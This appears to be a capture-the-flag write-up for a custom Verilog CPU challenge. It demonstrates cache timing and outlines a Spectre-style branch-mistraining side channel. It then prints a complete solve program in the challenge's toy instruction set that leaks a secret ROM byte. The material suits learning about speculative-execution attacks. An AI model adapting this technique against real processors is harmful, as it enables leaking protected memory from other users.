 Compile with: 
```bash
iverilog -g2012 -o nco ncore_tb.v
```
Try this program:
```
MOVFSI R0 R1 1
INC R3
INC R3
RDTM R1
MOVF R0 108
RDTM R1
MOVF R0 110
RDTM R1
MOVF R0 110
RDTM R1
```
It shows how cached accesses take 4 ticks, while uncached takes 8. I think it basically works, we just need a solve to make sure...

## The outline
Fool branch prediction to speculatively do a _MOVFSI R1,R0,IMM_ (which WONT get executed, otherwise you lock the core) now the result is in cache, try different Xs to load _MOVF X_ and time them, if it takes 4 clock, X is the value in _SAFE\_ROM\[IMM\]_.

## Solve Works!
It ain't pretty. It ain't pretty at all. But now it works, the following is a solve which does spit out the flag: 
```
FLUSH
INC R1
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R1 R0 16
MOVFSI R0 R3 0
RDTM R1
MOVFU R2 0
RDTM R2
SUB R2 R2 R1
MOVFU R1 58
JEQ R2 R1 34
INC R0
MOVT R0 19
JMP 16
MOVT R0 200
MOVF R1 35
INC R1
MOVT R1 35
MOVF R1 15
INC R1
MOVT R1 15
MOVF R1 56
MOVF R0 56
MOVT R0 19
JMP 0
00 00
04 00
```
